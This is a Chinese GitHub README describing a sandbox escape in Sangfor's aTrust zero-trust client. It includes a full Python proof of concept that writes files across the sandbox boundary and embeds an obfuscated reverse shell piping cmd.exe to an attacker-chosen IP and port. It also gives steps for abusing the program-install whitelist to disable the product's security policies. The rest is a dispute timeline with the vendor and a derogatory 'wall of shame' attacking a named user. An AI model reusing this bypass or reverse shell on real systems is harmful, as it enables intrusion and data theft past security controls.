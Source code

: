# SXF_aTrust_sandbox_bypass
深信服零信任沙箱逃逸( 正常功能，所以我也不打算再提交CNVD, 给使用这款产品的用户介绍下这个神奇的功能效果 ）

![Visitor Count](https://profile-counter.glitch.me/SXF_aTrust_sandbox_bypass/count.svg)

# [正式申明 <-- 点击此处](https://github.com/DaxiaSec/officalSM)

# 耻辱柱
@hluwa https://github.com/DaxiaSec/SXF_aTrust_sandbox_bypass/issues/10
此人无德，有五:

* 其一，擅于意淫, 本项目或issue下未说过本人技术如何牛逼，从事实角度出发描述一个正常功能，也未瞧不起任何同行，本来安全圈就是互帮互助，通过开源学习到了很多技术和知识，而且入行以来也从未割韭菜而是低调的做安全行业本分的事情，请问您是如何意淫到本人吹嘘自己牛逼的？
* 其二，颠倒黑白，一个描述事实的项目，为何在你眼里变成卖惨？我虽是个人，面对的是一个厂商，在道义正确的情况下，我没有屈服和让步，在知道他们不会止步于此时，但我还会继续面对，争取合法权益，这是一种你一辈子都拿不出的勇气。
* 其三，罔顾现实，你说我在公共社区"拉屎", 暂且不说你是有什么权利对待他人的项目，就事实而言，我不得向你介绍一下这个项目的由来，背景嘛？这必然会需要涉及到介绍厂商和具体的场景，可是一谈事实，你却又说要谈技术，正也是你，反也是你。一个事实都不谈的人，有何脸面立于天地之间。
* 其四，品质低劣，我为自己发声，不知为何得罪于你。聊事实，不谈。聊技术，说我在吹自己牛。最后给人按上自己意淫的title，你自己看看在issue的结语，是不是在说你自己？
* 其五，自私自利，害人害己。厂商说Github是境外，赛博鼠说Github是卖国。你不在乎。你自己Github用的美滋滋，还自诩公共社区“粪便”管理员。因为你只看到自己的利益，到时候卖国的大棒打到你头上估计你比谁都会叫唤。Github本来就是优秀项目走进了，走出去的很好的平台，某些人自己用Github却容不得别人使用，还想指挥别人按照他的想法删减内容，这种人格分裂，自私自利，实属罕见。


https://github.com/DaxiaSec/SXF_aTrust_sandbox_bypass/issues/12

# 一、功能介绍
* 环境：鹏程众测
* 类型：sandbox bypass
* 危害：无，正常业务功能罢了
* 权限：登陆后

## 1. 将如下py编译为exe
```python
import string
import random

def random_string(length):
    return ''.join(random.choice(string.ascii_letters) for m in range(length))

def readanyfile(filepath):
    with open(filepath,"rb") as f:
        contentbytes = f.read()
    print(contentbytes)
    return contentbytes

def writeanyfile(filepath, contentbytes):
    contentbytes = contentbytes
    with open(filepath,"wb") as f:
        f.write(contentbytes)

def reverseshell(ip,port):
    try:
        (lambda __y, __g, __contextlib: [[[[[[[(s.connect((ip, port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))
    except:
        pass


def main():
    c = input("[1] 文件逃逸 [2] 反弹shell [3]退出:\n")
    if c == "1":
        print("[1-1] 验证：数据进入沙箱")
        in_sand = input("沙箱内文件路径:\n")
        writeanyfile(in_sand, "flag_{}_".format(random_string(20)).encode())
        print("请确认沙箱内{}文件写入flag\n\n".format(in_sand))
        
        print("[1-2]验证：数据出沙箱")
        out_sand = input("沙箱外文件路径:\n")
        writeanyfile(out_sand,readanyfile(in_sand))
        print("请确认沙箱外{}文件与沙箱内文件数据一致\n\n".format(out_sand))
    elif c == "2":
        ip = input("IP:\n")
        port = input("PORT:\n")
        reverseshell(ip,int(port))
    elif c=="3":
        exit()

while True:
    main()
```

pyinstaller -F taoyi_yanshi.py

## 2. 在安装名单配置上编译出的taoyi_yanshi.exe
功能名称是: 程序安装白名单

功能描述是(此处一字不漏): 此功能可用于无痕模式时保护数据不被自动清除；也可用于解决程序在工作空间安装后使用异常问题(名单内的安装包在工作空间安装时，释放的文件会落盘到个人空间，安装完成后程序产生的数据会落盘到工作空间，即程序安装在个人空间，但运行仍在工作空间)

你可能会好奇，在登录后台有专门一页可以配置安全策略，如'文件导入导出控制'，'剪切板拷贝控制'等，那儿不是配置安全策略的？
想多了，根本不需要那么复杂，配置安装名单比配置策略好用多了，而且其可以让安全策略完全失效，毕竟哪位睿智能想到避免清空数据的功能可以穿越沙箱。
是的，不要怀疑自己，就是这么牛逼。


## 3. 效果
* 程序可以沙箱内外任意写
* 程序落地数据，明文可读
![](1.png)
![](2.png)

# 二、交涉过程
* 5.10 发现问题
* 5.14 沟通情况，电话说需证明反弹shell, **给出了收录价格**
* 5.18 提交漏洞详情，证明反弹shell
* 5.20-5.30 争议
* 5.30 发群里仲裁
* 5.30 - 6.10 说价格不合适，现在是讨论价格？是你们压根不认为是漏洞，要吃掉吧，然后不回消息


### 仲裁情况？
![](3.png)

群聊完整图：

![](z1.jpg)

![](z2.jpg)

上面就是完整的聊天记录，请问哪里看出来有群友否认这个不是漏洞？？

### 为什么不让小团体仲裁？

赛博大佬说用github都是卖国的，小心赛博大佬黑了你们。

留个位置先，这位更是重量级傻狗。

![](4.jpg)

